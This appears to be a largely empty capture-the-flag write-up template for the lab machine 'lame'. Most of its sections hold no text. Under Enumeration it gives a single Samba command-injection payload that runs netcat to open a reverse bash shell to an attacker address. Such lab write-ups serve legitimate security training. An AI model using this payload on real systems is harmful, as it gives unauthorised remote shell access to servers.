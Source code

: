 Name & IP Address of Machine:
> lame : `10.10.10.3`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] .

```bash
logon './=`nohup nc -e /bin/bash 10.10.14.28 9010`'
```


## FootHold

## Lateral Movement

## Privilege Escalation




<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->